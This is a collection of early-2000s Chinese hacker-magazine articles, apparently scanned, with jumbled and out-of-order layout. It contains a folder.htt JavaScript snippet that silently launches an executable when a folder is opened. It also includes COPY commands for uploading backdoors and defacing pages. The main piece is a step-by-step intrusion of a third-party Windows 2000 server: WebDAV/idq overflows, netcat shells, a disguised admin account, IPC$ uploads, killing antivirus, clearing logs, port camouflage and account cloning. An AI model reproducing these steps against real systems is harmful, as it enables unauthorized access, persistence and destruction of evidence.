此操作是去除模板文件的受保护。再选择菜单查看->自定义文件夹，出现自定义文件夹的设置对话框，点击“下一步”直到完成。此时，你会发现文件夹下多了个名为 Folder Settings 的文件夹，打开后你就会看到里面有模板文件：folder.htt，用记事本打开，你会发现里面是 html 语言，如图3所示。


图3

现在只要把勾选的 JavaScript 自动运行程序的代码插入其中就可以了。

```html
<script language="javascript">
run_exe="<OBJECT ID=\"RUNIT\" WIDTH=0 HEIGHT=0 TYPE=\"application/x-oleobject\" "
run_exe+="CODEBASE=\"test.exe#version=1,1,1,1\">"  // 运行文件名
run_exe+="<PARAM NAME=\"Version\" value=\"65536\">"
run_exe+="</OBJECT>"
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
```

保存后，当你打开此文件夹时，伴随着 test.exe 也会自动运行。

以上只是木马程序关联运行的几个小例子，真正防范起来也很简单。有经验的话，一眼就能看穿，毕竟程序的运行还是会有踪迹的。如果你没经验的话，下载木马克星等查杀木马的软件，多检测注册表的启动项，多看些木马隐藏和运行的文章等。或许看完这篇文章也能给你些启发吧。

最后，文章写得很浅，也不全面，没什么技术性可言，只是加了些自己的心得，再做了个总结，方便大家学习。


图2

# ASP 的两个实用小技巧

文／李胜军

ASP 是一个 Web 服务器端的运行环境。ASP 本身包含了 VBScript 和 JavaScript 引擎，使得脚本可以直接嵌入 HTML 中。现将笔者在 ASP 运用过程中的几个小技巧与大家分享。

只要养成良好的书写习惯，使得新闻的名称遵照 1 的要求，再把写好的文件存入 news 文件夹，新闻栏就会自动显示出最新的 10 条新闻了。

## 一、新闻栏

大多数网页上有新闻栏，用以显示最近新闻的主题，点击此主题即可查看详细报道。倘若每天都一条条写在网页上，再依次建立链接太过麻烦。如何让其可以根据文件自动更新呢？

- 1. **预备工作**
   1. 建一个文件夹，起名为“news”，假设存于 `D:/ASP/` 目录下；
   2. 把每条新闻的详细内容写入文件，且此文件的命名形式为：`x(newstime).htm`。其中 `x` 为此条新闻的主题，`newstime` 为此条新闻发布的时间（按年－月－日顺序写）。为什么要这样写呢？看了下面的算法思想和源程序就知道了。

**2. 算法思想**
对于 news 文件夹中的文件，依据它们文件名中新闻发布的时间（即括号内的内容），从大到小排序。这样一来，最新的新闻排在最上面，只要在网页相应位置显示 news 文件夹中最上面的若干个文件名，因为文件名的命名方式如 1 中所述，就可以在新闻栏中显示最新新闻了。

**3. 源程序段（用 VBScript 编写的）**

## 二、公告栏

除了新闻栏之外，较常用的就是公告栏了，公告栏主要用来显示一些重要的通知。当然这些通知是要经常变化的。让用户每次更改公告内容时都到源程序里去修改吗？当然不行，我们必须提供一个维护的界面给用户，使得用户只要输入通知，网页上的公告栏里自然就会显示通知内容了。

- 1. （1）解决这一问题的关键在于灵活应用 FileSystemObject 对象和 TextStream 对象。在实际应用中，你无需自行建立 TextStream 对象，因为只要利用 FileSystemObject 对象打开了文件，系统便自动建立 TextStream 对象。也就是说，一旦调用 `OpenTextFile` 或 `CreateTextFile` 方法，便会传回 TextStream 对象。
2. （2）所需相关文件有 3 个：`更新.asp`、`公告.asp`、`维护文本.txt`，把它们存入 `d:/ASP/main-tain` 目录下。
3. （3）3 个文件的主要功能和源程序段：
   1. **更新.asp**：主要功能是让用户输入欲显示的公告，检验输入内容是否为空，若不为空，则提交给“公告.asp”程序处理。


**4. 新闻栏内容更新**

**2）公告.asp**

通过 FileSystemObject 对象和 TextStream 对象对“维护文本.txt”文件进行读写操作，使得此文件最上面 5 行的内容为要在公告栏里显示的公告。


3）维护文本.txt

此文件开始为空，从“更新.asp”显示的界面输入公告后，此文件内容被自动写入。

（4）在主页文件（通常是 default.asp）欲显示公告位置的代码段中加入如下代码，即可显示出更新后的公告。

```html
<marquee scrollamount="2" scrolldelay="50" direction="up" width="223" height="133" id="a" onmouseover="a.stop()" onmouseout="a.start()">
！公告栏上下滚动
<%
Dim s(20)
Dim fso, MyFile
Set fso = CreateObject("Scripting.FileSystemObject")
Set MyFile = fso.OpenTextFile("D:/ASP/maintain/维护文本.txt",1,true)
for i=1 to 5
ReadLineTextFile=MyFile.ReadLine
s(i)=ReadLineTextFile
response.write "★ " & s(i)
response.write "<br>"
next
%>
</marquee>
```

上述两个小技巧举一反三，可以解决很多此类问题。网页设计爱好者们不妨一试。

## COPY 命令应用


COPY 命令是 DOS 命令中最基本的一个命令，除了最基本的文件的复制，其实它还有许多实用的小技巧，比如文件合并、简化入侵中的操作等等。下面就和各位读者一起来分享吧！

文／王智雄

COPY 命令是 DOS 命令的一个内部命令，它的用法很广泛。在计算机文化基础中有如下介绍：功能是将一个或一组文件复制到指定的磁盘或目录中；或将几个文件连接为一个文件。先看看 COPY 命令的帮助：

```
D:\>copy /?
将一份或多份文件复制到另一个位置。

COPY [/D] [/V] [/N] [/Y | /-Y] [/Z] [/A | /B]
source [/A | /B] [+ source [/A | /B] [+ ...]]
[destination [/A | /B]]

source 指定要复制的文件。
/A 表示一个 ASCII 文本文件。
/B 表示一个二进制文件。
```

- /D：允许解密要复制的已加密文件。
- destination：为新文件指定目录和/或文件名。
- /V：验证新文件写入是否正确。
- /N：复制带有非 8.3 名称的文件时，尽可能使用短文件名。
- /Y：不使用确认是否要改写现有目标文件的提示。
- /-Y：使用确认是否要改写现有目标文件的提示。
- /Z：用可重新启动模式复制已联网的文件。

命令行开关 /Y 可以在 COPYCMD 环境变量中预先设定，这可能会被命令行上的 /-Y 替代。除非 COPY 命令是在一个批文件脚本中执行的，默认值应为在改写时进行提示。要附加文件，请为目标指定一个文件，为源文件指定多个文件。

## 指定数个文件（用通配符或 file1+file2+file3 格式）。

+   1. `COPY [D:][PATH]FILENAME.EXT [D:][PATH]FILENAME.EXT`
2. `COPY FILESPEC+FILESPEC+……+FILESPEC FILESPEC`

第一种格式用于一个或一组文件的拷贝；第二种格式用于将几个文件合并。

还有两种不常用的用法格式如下（使用了硬件重定向）：

+   3. `COPY CON A.TXT` 建立名为 `A.TXT` 文件，其内容由键盘输入，先用 `Ctrl+Z` 再加回车结束，如图1所示。


+   4. `COPY CONFIG.SYS PRN` 把 `CONFIG.SYS` 文件的内容打印出来。

不要小看这个 DOS 小命令，它的功能可多啦，下面细听笔者介绍（主要是一些不常用的）：

## 二、合并文件

随着大硬盘进入寻常百姓家，将 VCD 的经典片段收藏在自己的硬盘里已经不是什么稀罕事了。我们常用的超级解霸能够将 VCD 片段截下来作为一个 MPG 文件保存，但时间一长，逐渐增多的 VCD 片段会使得管理和欣赏都很不方便。把自己喜欢的 VCD 片段合并成一个文件就能解除以上的烦恼，但是超级解霸没有合并功能，其他的编辑软件不易上手。有没有什么好方法呢？答案当然是有了，是使用上面提到的第二种格式。

假设我们在 D 盘有两个 MPG 文件：`1.MPG` 和 `2.MPG`，我们要将这两个文件合并成一个 `3.MPG` 文件。进入 DOS，在 D 盘键入 `COPY 1.MPG+2.MPG 3.MPG` 然后一个回车就大功告成了。很简单的一条命令加上超级解霸，我们就能成为编辑大师，是不是很有趣？大家快动手试试吧。

## 二、在黑客中应用

在上传后门程序时候经常用到的一个命令：`COPY C:\SRV.EXE \\210.***.***.***\ADMIN$` 既可以把后门程序 `SRV.EXE` 上传到对方的 `ADMIN$` 共享目录下，当然反过来也可以，这样就成了下载了：`COPY \\210.***.***.***\ADMIN$\SRV.EXE C:\` 就可以把对方的 `ADMIN$` 共享目录下的 `SRV.EXE` 文件下载到本地的 C 盘下。`COPY C:\INDEX.HTM \\210.***.***.***\C$\WWW\INDEX.HTM` 把对方的主页替换成自己的页面。

## 三、在隐藏文件中的应用

```
D:\>copy mylogo.gif /b+www.txt /a www.gif
mylogo.gif
www.txt
1 file(s) copied
```

这样的话，打开 `www.gif` 和原来的图片一样的，但是你用记事本打开看看后面的 TXT 文件里的内容出现了。

```
D:\>copy ts.exe /b +www.txt ts1.exe
ts.exe
www.txt
1 file(s) copied
```

把程序和文本文件合并进运行程序 `ts1.exe` 仍然没有问题，用记事本打开又可以看见文本的内容了。其中 `/b` 表示二进制的压缩，`/a` 表示 ASCII 码 TXT 文件，可以改成 HTML、HTM、DOC 等一些文档格式，这样可以达到加密的效果！要是可以把 DOC 加上宏病毒，加后合成进 JPG 里，这样加点汇编的效果，可以达到做病毒的传播途径，大家以后小心点，要知道 JPG 一样可以传毒！

希望各位有没有其他的应用，来信告诉我：abomber@etang.com，或在我主页上留言 `http://js00.51.net/23`，不胜感激！

黑客与系统管理员之间的关系一直以来都属于成语“自相矛盾”的另类演绎。很多出色的黑客同时也是一个系统管理员，而一个系统管理员，也很可能会成为一个出色的黑客。这篇文章就是作者对于黑客与管理员之间的互动性的一次阐述……


# 系统管理员的较量

文／齐峰

什么是黑客？这是一个被很多人误解了的问题。随着黑客人文的逐步商业化，有关网络入侵、黑客攻击等事件被越来越多的人所了解。在这个过程中，一些媒体便不知不觉地起了误导的作用。那么，究竟什么是真正的黑客呢？今天我们先在这里为“黑客”这个词来正名。最早的黑客当属互联网诞生的一代人了，他们掌握着当时最先进的技术，开发了 UNIX 操作系统，是互联网的缔造者。随着黑客文化的发展，到了上个世纪七八十年代，“黑客”这个词被赋予了新的含义，它与人侵沾上了边。但这时的黑客仍然被认为是真正的黑客，他们依旧掌握着当时最先进的技术，不断地发现各种各样的漏洞，偶尔进行一些入侵，但是绝对不做任何破坏，并且在入侵后会提醒服务器管理员修补漏洞，并且他们会写程序、调试程序，不断地求索和创新，遵循着自由和共享的原则。到了上世纪末，随着网络攻击事件的增多，骇客和红客一类的新名词为人们所接受。他们为了不同的目的进行入侵、破坏，已经算不上真正的黑客了。本文的题目尽管为“黑客”与系统管理员的较量，但是黑客是打了引号的，以示与真正黑客的区别。

如今，网络入侵变得越来越傻瓜化，下面我们就以一次完整的入侵过程为例，来看看入侵是怎样进行的，从而希望对系统管理员们起到一个提醒的作用。也希望大家在看过这篇文章后能够提高自己的安全意识。

## “黑客”：入侵篇

## 一、制定入侵计划

基于种种原因，人侵从确定目标到结束入侵往往不会在很短的时间内一次完成，因此需要列一个大概的入侵计划：

采用 Windows 2000 Server 操作系统：

| 时间 | 目的 | 事件 |
|---|---|---|
| 周一 | 确定入侵目标、系统漏洞 | 获取目标的 IP 地址，扫描，准备相应的工具 |
| 周二 | 占领目标 | 通过漏洞获取尽量高的权限 |
| 周三 | 巩固阵地 | 充分伪装，并为被入侵的主机打补丁 |
| 周四 | 扩大战果 | 对内网进行渗透 |
| 周五 | 最终目的 | 更换主页 |

当然，这只是一个大概的计划，具体情况还要看入侵目标的实际状况而定了，假如他没有连接内网，那么我们周四就可以去喝茶了。

## 二、预备工作

由于我的接入网络的原因，访问国外站点不是很方便，所以只好随便选个国内的 C 类 IP 段了。先拿出著名的扫描工具 xscanner2.3 来。它具有图形界面和命令行界面两种扫描方式，是国内安全焦点的大作，免费、速度快、界面友好、可扫描漏洞全面等等优点都具备。

扫描报告中过滤出有用的信息：

```
text
端口21开放：FTP（Control）—— 是台FTP服务器
端口80开放：HTTP，World Wide Web —— 也是台主页服务器
端口135开放：Location Service。
端口139开放：NETBIOS Session Service —— 强有力的入侵端口
......

[NetBios信息]
主机名称："202.xxx.xxx.xxx"
操作系统：Windows NT
系统版本：5.0    是2000SERVER的操作系统
......

[网络共享资源列表：Level 1].
"E$"：磁盘 — [默认共享] (System)
"IPC$"：进程间通信(IPC$) — [远程 IPC] (System)
"D$"：磁盘 — [默认共享] (System)
"print$"：磁盘 — [打印机驱动程序]
"HPDeskJe"：打印机 — [HP DeskJet 640C Series]
"F$"：磁盘 — [默认共享] (System)
"ADMIN$"：磁盘 — [远程管理] (System)
"C$"：磁盘 — [默认共享] (System)    这一大堆我很喜欢哦，入侵的一条通道

[网络用户列表：Level 20]:
......

TsInternetUser(ID: 0x000003e8) — [这个用户账户被终端服务所使用。] 安装了终端服务
用户标记：执行登录脚本、允许空口令、禁止改密码、口令永不过期
账户类型：标准账户
用户全称："TsInternetUser"

[网络用户列表：Level 3]:
Administrator — [管理计算机(域)的内置账户]
口令使用时间：507 Day 19 Hour 11 Minute 30 Sec.
1年多都没有重新安装系统了
账户类型：管理员(Administrator)
最后登录时间：GMT Thu Apr 03 03:19:29 2003 看来管理员还是经常使用这台机器的
......
```

仔细看了看扫描报告，虽然没有遇到弱口令，但由于开放的端口比较多，好，就选这台机器了，202.xxx.xxx.xxx。是Windows 2000 Server 的操作系统。看看开放的端口，是台Web、FTP服务器，先用浏览器看看是个什么站点再说。似乎是个教育网的不大的站点，凭经验来看，估计安全做得不怎么样，有很多教育网的服务器都不打SP3的，完全可以试试IIS的ida漏洞的。而且ipc$也开着，还有很多默认的共享也都没有关掉。嘿嘿，看来是拣到便宜了。下面的工作就该针对这台服务器的情况收集需要的工具了，都需要找些什么呢？我们先来给这次行动的主角们拍个照吧，如图1所示。


图1

也许很多菜鸟要傻眼了，这么多工具都是做什么用的啊？下面我们就来为这些软件做一个大概的介绍。

+   1. **扫描工具**：Nmap 和 xscan 这两个文件夹是两大著名的扫描器了，基本功能相同，都可以检测开放的端口、常见的漏洞，并且速度比较快。在使用上各有优势，xscan 有全中文图形界面，扫描报告也是中文的，并且非常容易看懂，对于英文不好的菜鸟尤为适合了。具体使用哪款就看个人喜好了。

+   2. **后门工具**：Gwboy2003 是一个比较新的木马程序，中文名叫做广外男生。虽然还只是个测试版，但是功能非常强大，具备端口反弹式连接的技术，并且具备远程监控图形界面、修改注册表等功能（小知识：端口反弹式连接是指被种木马的机器可以自动搜索提前设置好的固定IP的客户端程序，可以有效避免服务器端动态IP的问题，是一种新的木马技术。当然，由于对方是固定IP的服务器，在这里我们就用不到这个功能了）。

我当时试验了一下，用诺顿的最新病毒库是无法查到这个软件的。为什么要用诺顿做测试呢，这主要是根据经验了，国内的不少服务器都是使用诺顿做病毒防火墙的。Psexec 也是一个功能强大的后门程序，只要和对方建立了 ipc$ 连接，用它可以做很多操作的。

+   3. **漏洞溢出工具**：webdavx3 是一款刚刚发布的针对微软 IIS 的最新漏洞的工具。idq.exe 也是一款针对 IIS 的攻击工具，虽然比较老了，但是对于没有打补丁服务器还是值得一试的。这两款软件都可以使我们获得一个很高的权限，是这次入侵的主角中的主角。Sqlexec 也是一款漏洞溢出的攻击程序，不过它是针对 sql 的。只要对方开放了 1433 的 sql 端口，我们就可以用这款工具来获得管理员权限。

+   4. **日志清除工具**：elsave 可以清除对方机器的应用程序、系统、安全日志。Clearlog 可以用来清除 iis 的日志。

+   5. **其他工具**：我们如果能得到对方的管理员权限，那么就可以用 ca 这个程序来将管理员的权限克隆给另外一个已经存在的账户，这样便可以做到神不知、鬼不觉哦。Cca 则是用来和 ca 搭配的检测程序，它可以检测对方是否存在某个用户或者你用 ca 克隆是否成功。Reboot 是用来给对方机器重新启动的。Ts 是用来给 2000scrver 的机器启动终端服务的。Tlist 和 kill 则是微软给我们提供的好工具，可以显示对方的进程和杀死某个进程。就在你的 2000 安装光盘中，资源工具包该听说过吧。Opentelnet 是用来给对方开启 Telnet 服务的，resumetelnet 当然是恢复到原来状态用的了。Nc 是一款小巧的瑞士军刀级的工具，文件很小，但是功能很强大。这次入侵我们主要用它来监听端口了。

idq.dll 这个文件在上面的 5 个类别都算不上了，它主要是用来创造一个漏洞的。啊啊，没写错吧，就是创造一个漏洞的——idq 漏洞，可以和 idq.exe 这个程序搭配使用的。

这些软件的具体使用我们在入侵过程中再做详细介绍了。

唉，罗里罗嗦了一大堆，预备工作做完了，睡个好觉，明天我们要进入实战阶段了。

## 三、实战阶段

+   1．获取 system 权限：

根据扫描报告，对方存在 idq、ida 漏洞。尽管说这并不表明对方一定存在这个漏洞，我们还是首先拿出 idq.exe 和 nc 试试运气了。Idq 这个软件是


图 2


图 3

图形界面的，很简单，添入 IP 地址，其他的设置都按照默认就可以了，然后选择一个操作系统，我们就先选择中文版的 2000sp2 好了，最后点击右下角的“idq 溢出”按钮，如图 2 所示。

如果对方的 iis 运行正常，我们会看到如图 3 所示的界面，当然，这并不表明溢出成功了。

我们还需要请出 nc 来验证一下。进入 Windows 2000 的命令行界面，到存放 nc 的路径下输入 `nc -vv 202.xxx.xxx.xxx 813`。要选择 813 是因为我们在 idq 溢出程序中的设置位绑定端口为 813。如果设置为其他端口，那么做出相应调整就好。唉，比较失败，看来溢出没有成功，又试了几次，仍然不行。不管什么原因了，我们还是拿出另外一款溢出程序 webdavx3 来尽快搞定对方吧。仍然是在命令行模式下，输入 `webdavx3 202.xxx.xxx.xxx`，如图 4 所示。

这个过程我们可以看到需要重启对方的 IIS。也许是程序的不完善，在使用时我发现这个软件偶尔会导致 IIS 启动不成功，其直接体现就是对方的 Web 页面无法访问。根据软件的提示，如果溢出


的时间太长我们可以按下 Ctrl+C 来退出，然后输入 nc vv 202.xxx.xxx.xxx 7788。看来这次运气不错，溢出成功后就会显示图 5 界面。


注意了，这里的 C:\WINNT\system32 可不是我自己机器的路径了，而是对方的机器路径。也就是说，如果我们现在输入 dir，那么我们看到的就是对方的 system32 文件夹下的文件列表了。

到了这个时候，我们已经拿到了一个 system 权限的 shell 了，下面在它的机器里面溜达溜达，看看它有几个分区，有哪些网络连接等等。当然，最重要的是不要忘记先给我们添加一个管理员账户。

### 2. 添加管理员账户

输入 `net user INSR_EIE /add` 这条命令是用来添加一个叫做 INSR_EIE 的用户，EIE 是对方的机器名，细心的读者应该记得，在安装了 IIS 后我们的操作系统会多出几个类似用户名的账户，是用来给 IIS 匿名账户登录用的（小知识：起这样一个用户名主要是为了不让管理员起疑心，如果对操作系统不了解，这样的用户名想必他就算发现了也不敢随便删除的。在入侵中起用户名也是一项艺术哦。）下一步输入 `net localgroup administrators INSR_EIE /add` 这条命令，是用来将 INSR_EIE 这个账户添加进管理员组。不要忘记给我们的新管理员加一个密码哦，输入 `net user INSR_EIE kekoukele`


kekoukele，就将这个账户的密码设置为 kekoukele 了，如图 6 所示。

### 3. 利用 ipc$ 上传工具

这里我们先来简单介绍一下 ipc$。Internet Process Connection，在微软的帮助文件中又被称作是共享命名管道的资源，它在远程管理计算机和查看计算机的共享资源时使用。在操作系统的默认安装情况下可以利用它远程建立一个空连接或者是有一定权限的连接，可以在远程管理计算机时起到一定的帮助。利用它我们可以实现上传文件、获取目标的用户列表、共享资源等功能。但是 ipc$ 只支持 Windows NT、2000 和 XP 操作系统，也就是说它不支持 Windows 98 和 Windows Me。

另外，开一个命令行界面，输入 `net use \\202.xxx.xxx.xxx\ipc$ "INSR_EIE" /user:"kekoukele"`

这样，我们就建立了一个 ipc$ 共享连接，如果不习惯命令行操作方式的朋友还可以在开始菜单，“运行”中添入 `\\202.xxx.xxx.xxx\c$`，然后在出现的窗口中添入用户名和密码，这样就可以看到对方的 C 盘内容了，如果输入的是 d$，当然就看到 D 盘内容了。需要注意的是，ipc$ 通道在任一时刻只允许建立一个连接，假如我们建立了第一个连接后再次使用命令来建立连接，将提示错误的。

+   1. 错误号 5，拒绝访问 — 非管理员权限
2. 错误号 51，Windows 无法找到网络路径 — 网络问题
3. 错误号 53，找不到网络路径 — IP 地址输错了或者对方的 lanmanserver 服务未启动，也可能是对方

安装了网络防火墙
4. 错误号 67，找不到网络名——对方删除了 ipc$；
5. 错误号 1219，提供的凭据与已存在的凭据集冲突——已经和对方建立了一个 ipc$。
6. 错误号 1326，未知的用户名或错误密码——密码打错了吧）

下面我们要做的就是把我们的宝贝工具改个名字，上传到对方的硬盘上。上传的方式可以采用命令行 `copy system.exe \\202.xxx.xxx.xxx\admin$`，也可以先使用命令 `net use z: \\202.xxx.xxx.xxx\c$` 将对方的 C 盘映射为自己电脑的网络驱动器。


脑的网络驱动器，然后完成文件的复制和粘贴，如图 7 所示。在这里，我将 `clearlog` 改为了 `system.exe`（注意：`admin$` 为在远程管理计算机的过程中系统使用的资源。该资源的路径始终是到 Windows 2000 的安装目录，例如，`C:\Winnt`）。

我们这次需要上传的文件有 `tlist`、`clearlog`、`kill`、`ts`。

### 4. 远程运行程序

我们的宝贝东西们都上传好了，那么怎么让它们运行呢？这就要用到 `net time` 这个命令了。输入 `net time \\202.xxx.xxx.xxx`，我们就可以看到对方系统的时间了。


然后使用 `at` 命令，输入 `at \\202.xxx.xxx.xxx 11:31 ts.exe` 和 `at \\202.xxx.xxx.xxx 11:32 reboot.exe`。

这两个命令是让 `ts.exe` 在 11:31 这个时间运行，`reboot.exe` 在 11:32 这个时间运行，如图 8 所示。

因为从扫描报告我们得知对方服务器安装了终端服务，但是又没有启动这个服务。所以我们来帮它启动，这样以图形化的界面来监控它会更加容易。

完成了这两条命令我们就敲开 `ping 202.xxx.xxx.xxx -t`。我们可以看到一会儿对方就 time out 了，再过了一段时间就又能 ping 通了，这就表明我们的 `reboot.exe` 程序运行成功了。然后，我们再次拿出 `xscan` 来进行扫描，发现终端服务的端口 3389 已经开放了，这表示 `ts.exe` 程序运行成功，并且成功启动了终端服务，下面我们就可以使用终端服务的客户端来进行图形界面的远程操作了，如图 9 所示，现在是不是比命令行舒服多了啊。


也许有人要说不是准备了木马程序吗，上传一个木马不是更不容易被发现吗？要知道我们现在还不清楚对方是否安装了病毒防火墙，如果安装了，安装的是什么病毒防火墙。如果因为病毒防火墙导致我们功亏一篑，那可就太不划算了。不要忘了我们上传了 `tlist` 和 `kill` 这两个小程序，现在就该它们大显身手了。利用刚才远程溢出获得的那个界面……


## 面，在对方操作系统根目录下输入 `tilist`，我们将会看到对方的进程列表。这样，我们就可以知道对方的机器正在运行什么程序了，如图 10 所示。

第一列的数字表示对应进程的 ID，也就是 pid，这时我们就可以得知对方运行了哪些程序了。然后我们可以使用 `kill.exe` 来终止进程，只要输入 `kill pid` 就可以了。这样，对方的防火墙就不会成为我们的绊脚石了，接下来如果愿意，就可以上传木马程序了。由于我已经可以通过终端服务的图形界面控制对方，就懒得再去用木马程序了。

### 5. 开启 Telnet 服务

Telnet 服务一直被入侵者视为绝佳的法宝，从扫描报告中我们得知对方并没有开启 23 端口，也就是说没有启动 Telnet 服务。那么下面我们就通过 `opentelnet` 这个程序来帮对方开启 Telnet 服务。在命令行格式下输入 `opentelnet.exe \\202.xxx.xxx.xxx INSR_EIE kekoukele NTLMAuthor 23` 就可以了，如果 Telnet 服务开启成功，那么就会出现如图 11 所示提示，下面我们就可以通过 Telnet 方式控制对方了。


图 11

这里顺便提一下，如果需要开启其他服务，我们也可以通过计算机管理的远程连接功能实现。这个功能还可以实现事件日志的清除，非常方便，不过前提是我们需要建立一个管理员权限的 ipc$ 连接，如图 12 所示。

### 6. 清除日志文件

今天已经拿到最高的权限了，而且除了 Telnet 的还有图形界面的哦。时间也差不多了，该给 mm 打电话了，于是准备离开。离开之前当然要清除掉记录有入侵痕迹的日志了。这时就要用到 `elsave`


图 12

和 `clearlog` 了。需要注意的是 `clearlog` 是需要在远程计算机上运行的，而 `elsave` 是在我们本地计算机上运行就可以的。再次 Telnet 到对方计算机上，因为我已经将 `clearlog` 上传到对方硬盘了，并且改名为 `system.exe` 了，所以到相应路径下输入 `system.exe` 就可以了。

这样就清除了 IIS 日志，然后我们还需要在本地计算机上运行 `elsave` 来清除对方的应用程序、安全、系统日志。输入 `elsave /?` 便会看到具体用法的，很简单，这里就不多说了。只需要注意这个程序也是基于我们建立了 ipc$ 连接的基础上的。

这一阶段到这里就可以搞定收工了。比较累了，给 mm 打电话去喽。

## 四、巩固阵地

今天要做的工作不是很多，但是需要特别谨慎。一个有如此多漏洞的服务器很难保证不会被别人入侵，那么我们要做的就是为这个服务器打上补丁，留一个隐藏的后门，以方便我们以后进入。

### 1. 为系统打补丁

由于这个系统没有安装 SP3，所以我们当然首先是要使用终端服务去帮它下载一个 SP3 来安装了，然后还需要到微软官方网站上去下载最新的 IIS 补丁，如果嫌麻烦，直接使用 `windowsupdate` 就可以了。总之，这一步的原则是尽可能修补所有的系统漏洞。

### 2. 修改 Telnet 服务的端口

修改端口会让其他的入侵者做出错误判断，这样更有利于保护我们的肉鸡。用终端服务登录上去，打开对方管理工具中的 Telnet 服务器管理项，按照提示选择 3 来更改设置，如图13所示，然后再选择 8 更改 Telnet 的端口，只要不与其他端口冲突就可以了，这里我选择了130端口。


### 3. 修改终端服务的端口

与第二条同样的道理，不过这次我们修改的除了服务器端，还需要修改客户端的端口配置。在服务器端只需要通过修改注册表的两个地方就可以达到目的，分别是 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp` 下，找到 `PortNumber`，选择为十进制，填入 8080（8080 端口为代理服务器的端口，开放这个端口既不会令人怀疑，也能起到迷惑他人的效果）。然后再到 `LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp` 下找到 `PortNumber` 进行更改就可以了。这样，就修改好了终端服务的服务器端端口。第二步要做的是在我们的机器上的客户端连接管理器中建立客户端连接的快捷方式，这个快捷方式当然是对应 `202.xxx.xxx.xxx` 这个 IP 了。然后选中这个快捷方式，在“文件”菜单里选择“导出”，将生成的 `.cns` 文件放到桌面上，用文本文件打开它，在里面寻找 `Server Port=3389`，将 3389 修改为 8080 后保存。最后再选择“文件”菜单里的“导入”，把修改后的 `.cns` 文件导入回去就可以了。

这时我们再对目标机器进行扫描，会发现对方开放了 130 和 8080 端口，并且扫描器会将这两个端口分别识别为 cisco FNATIVE 和代理服务器端口，如图14所示，是不是很具有伪装性啊。下面我们就需要使用 ca 和 cca 这两个软件来将管理员的权限克隆给一个对方已存在的帐户，毕竟这样才具有更好的隐蔽性，我们建立的帐户迟早会引起对方管理员的怀疑的。


在自己机器的命令行格式下输入：

```
ca.exe \\202.xxx.xxx.xxx INSR_EIE kckoukele aaa kekoukele123
```

这样我们就把管理员权限克隆给 aaa 这个帐户了（aaa 具体选择哪个帐户可以随便了，只要是对方不常使用的帐户就可以了）。这种增加权限的方式是不会在对方的“本地用户和组”中被发现的，所以它具有很大的隐蔽性。

到了这里，我们的阵地就已经基本巩固了。最后退出战场的时候可不要忘了仍然需要清除日志文件哦。今天由于使用了终端服务进行登录，所以需要多删除一个 `Documents and Settings` 路径下的 `INSR_EIE` 这个文件夹。

由于这台机器并没有连接内网，而我们这次入侵也只是为了测试的目的，因此周四和周五的计划就可以不用做了。

## 五、最后的思索

这次入侵虽然运气不是非常好，没有遇到管理员空口令的好运，但是也还算顺利。基本按照计划实现了每一步所要求的任务。而最令人担忧的是，我们可以看到这次入侵并不需要多么高深的技术，只要具备一定的操作系统和网络知识，对一些软件比较熟悉就可以做到。这表明一个不足够安全的服务器在如今看来是多么的危险。那么，如何才能保证你的个人服务器不会轻易地被人攻破呢？我们将在后面的系统管理员防御篇来解决这个问题。

Webdav 是通过 IIS 来利用这个漏洞的，但是漏洞本身并不是 IIS 造成的，而是 ntdll.dll 里面的一个 API 函数造成的。也就是说，很多调用这个 API 的应用程序都存在这个漏洞，对于这个漏洞，互联网上一片哗然，各种溢出工具纷纷出台，这对各安全爱好者来说这可是个锻炼自己，提升自己技术水平的大好机会，又怎能放过？但现在大多的溢出工具都是针对中文版的 IIS，这对本身先天不足、相对脆弱的国内主机来说，是个相当大的打击，虽然随后推出了针对英文、中文、韩文、日文等各版本的 IIS 溢出工具，这一定程度地缓解了国内主机的压力，将主战场转移到了海外，但是对相当一部分网络爱好者来说，还是大受条件限制的，因为不可能像宽带用户一样天天挂在网上，还受到网速和网费的限制，所以也就大大减少了实践的机会，但是这就能斩断我们通向网络、提升技术的机会吗？不，不能！那就让我们自己动手做 Honeypot 实现对 Webdav 漏洞的安全入侵及怎样简单配置 IIS 服务器以弥补漏洞。这在不触犯法律的同时，又过了把入侵瘾。接下来就开始我们的入侵之旅吧！

# 自做 Honeypot 实现

文／rongke


# Webdav 漏洞

# 安全入侵及配置

关于微软惊爆 Webdav 远程溢出漏洞，在这我引用老大哥 isno 一句话：这个漏洞可能是前些年就有牛人发现了的，不过一直没公布，直到最近微软出了安全公告大家才知道原来有这么个漏洞。漏洞出来了，当然要实践一下，以提高自身的动手能力，那么，如何才能在不触犯法律的同时进行入侵试验呢？我想到了 Honeypot，下面就和我开始这次入侵之旅吧！

- 准备工具：
  1. VMware Workstation，Vmware 都已经出到 v4.0 了，这里提供下载地址：
     - http://www.hanzify.org/download.asp?SOFT_ID=6840&SITE=1 （为 VMware Workstation3.2.0 build 2230）
     - http://count.skycn.com/softdown.php?id=7584&url=http://gddown.skycn.net/down/HB-VMwareWs320b2230-V2-ZY.rar （为 VMware Workstation3.2.0 build 2230 为汉化补丁及注册码）
  2. webdavx 攻击测试程序，webdav.pl 中文 IIS 溢出脚本，fo_webdav.exe 通用溢出版。

这个程序可以针对中文、英文、韩文、日文各版本的 IIS 进行攻击，无论对方打了何种 service pack，只要漏洞存在就能成功获取一个 system 权限的 cmdshell，而且为了防止远程主机对端口进行过滤，所以在 shellcode 中并不绑定 cmd 到新的端口，而是直接重用 http port，可以很好地避开防火墙对远程主机的保护。

  3. IIS Lockdown tool IIS 锁定工具
  4. Win2000 Webdav 远程缓冲区溢出漏洞扫描工具

补丁程序：中文补丁下载：http://download.microsoft.com/download/3/4/8/34817d34-91cc-4577-b0e5-354a8973334d/Q815021_W2K_sp4_x86_CN.EXE

实施步骤：
首先，我们把 VMware Workstation 装好，然后选择“新建虚拟主机”，如图 1 所示。


点击“下一步”，选择你要安装的 OS 版本，这当然选择 Server 或者 Advance Server 版啦，然后一直“下一步”，由于这次我采用的是汉化版，都是中文，相信大家都能看懂，所以我也不多说，如图 2 所示。


图 2

按“完成”结束 VMware Workstation 的安装。接下来点击“开机”，开始装系统，然后 VMware Workstation 虚拟的 OS 会重新启动，和 Windows 很像，但有一点不同的是，当出现启动界面时，不是按“Del”键进入 COMS 设置，而是“F2”键，接下来的操作和平常没什么两样，现在设置启动顺序，我们选择从光盘启动，注意了用“+”、“-”进行选择，如图 3 所示。


图 3

